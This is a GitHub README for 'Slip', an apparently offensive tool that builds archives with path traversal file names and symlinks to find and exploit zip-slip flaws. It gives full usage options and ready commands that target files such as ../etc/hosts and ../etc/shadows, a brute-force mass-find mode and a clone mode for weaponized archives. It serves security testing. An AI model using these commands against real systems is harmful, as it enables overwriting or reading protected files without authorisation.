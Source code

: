 # Slip (experimental branch)

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vilnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z**, **jar**, **war**, **apk** and **ipa** archives (and every compression algorithm supported by each format)
- Allows to hunt for both **arbitrary file write** and **arbitrary file read** vulnerabilities (using paths or symlinks)
- Supports the automatic generation of path traversal payloads to look for a file at different depths in the filesystem
- Supports the usage of custom path traversal (or "dotdotslash") sequences
- Implements a "massfind" mode, that uses a payload dictionary to generate the archive

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z|jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path:name
  --file-content TEXT             Content of the files in the archive, file-
                                  content or multi-file-contents must be
                                  specified if paths are used.
  --multiple-file-contents TEXT   Base64 encoded contents of the files in the
                                  archive separated by commas, the number of
                                  elements in multiple-file-contents must be
                                  equal to the number of paths. The options
                                  multi-file-contents or file-content must be
                                  specified if paths are used. This options
                                  overrides file-content option if both are
                                  specified.
  --force-name                    If set, the filename will be forced exactly
                                  as provided.
  --search INTEGER                If set, paths and symlink will generate
                                  multiple traversal paths to try and find the
                                  target file or path at different depths.
                                  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  path_traversal_dict.txt]
  --mass-find-placeholder TEXT    Mass-find placeholder for filename in
                                  dictionary  [default: {FILE}]
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.

```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive.tar
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive.zip
```

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" --file-content "foo" archive.tar
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type zip --symlinks "../etc/hosts:linkname" archive.zip  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/:foo`, path: `foo/hosts`).

Create a tar archive with multiple payloads (from the default mass-find dictionary) to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive.tar
```
⚠️ WARNING: mass-find mode supports paths, this translates to a bruteforce attempt to rewrite a specific file, but it potentially uses A LOT of payloads, so the result is unpredictable. Use with caution.

Create a zip archive with multiple file contents.
```
python3 slip.py --archive-type zip --paths "xxx, yyy, zzz" --multiple-file-contents "eHh4, eXl5, enp6" archive.zip
```
⚠️ EXPERIMENTAL: This mode allow to specify one-by-one the content of each file in the archive.
The number of paths and the number of file contents must match. The file contents have to be set in base64 to avoid troubles with unexcaped characters.
The option `--multiple-file-contens` will override `-file-contents` if both are set.

Create an archive from an existing one and add a new payload:
```
python3 slip.py --clone source.7z --paths "foo" --file-content "bar" archive.7z
```
⚠️ EXPERIMENTAL: This allows the creation of weaponized archive files with a complex data structure such as JAR, WAR, DOCX and more.

## Notes
- Depending on the library that handles the decompression, results may vary greatly.

  Different compression algorithms can trigger different behaviours during the extraction, but also the usage of certain path traversal payloads in names or the co-presence of path traversal payloads in names and symlink can lead to weird behaviours during the extraction. Many combinations of compression algorithms, archive types and payloads are relatively untested and should be evaluated on a case by case basis to obtain the best results.

- Archive types: jar|war|apk|ipa are supported as simple zip archives.  
The archive format is correct, but valid archives should contain compatible contents.
Valid contents can be set manually and are not yet supported by slip.
Please note that many software that handles these formats, treat them as zip files.
This means that using the correct extension will suffice.

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).
